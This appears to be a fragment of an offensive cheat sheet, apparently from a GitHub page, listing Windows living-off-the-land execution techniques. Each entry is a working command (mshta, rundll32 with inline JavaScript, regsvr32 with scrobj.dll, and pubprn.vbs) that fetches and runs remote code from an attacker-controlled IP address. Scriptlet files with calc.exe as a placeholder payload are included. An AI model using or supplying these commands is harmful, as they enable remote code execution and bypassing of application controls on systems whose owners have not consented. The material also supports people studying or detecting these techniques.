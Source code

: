 ```bash
mshta http://192.168.28.128/run.hta
```

#### Run32

```bash
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

#### regsvr32

```bash
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
File.sct
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true); // 执行操作
        ]]>
</script>
</registration>
</scriptlet>
```

#### Pubprn.vbs

```bash
Cmd.exe /c’"%windir%System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://192.168.10.1/test.sct’
Test.sct
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
    >
</registration>
<script language="JScript">
<![CDATA[
        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");  // 执行操作
]]>
</script>
</scriptlet>
```
